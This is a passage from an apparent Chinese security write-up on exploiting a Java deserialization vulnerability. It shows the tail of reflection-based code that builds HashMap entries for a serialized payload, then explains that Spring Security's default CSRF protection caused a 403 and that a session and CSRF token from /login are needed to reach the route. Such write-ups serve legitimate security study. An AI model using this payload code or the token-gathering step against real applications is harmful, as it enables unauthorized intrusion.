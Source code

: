 ```plain
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(s, "table", tbl);
        return s;
    }
}
```

### 坑点

这里打过去的时候发现竟然报了 403，可是就算没鉴权也应该是 401 才对

[![](assets/1709112106-b11f358202bfa2c184960f6cf74588ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227200756-d7af7e80-d568-1.png)

其实这里返回 403 的原因实际上是`Spring Security`​默认会开启 csrf 验证，如果要手动关闭这个 CSRF 的校验需要写入以下代码

```plain
http.csrf().disable()
```

那么这里默认是开启的，所以我们需要去登录的接口处拿到我们的对应的 Session+CSRFtoken 才可以访问该路由

访问`/login`
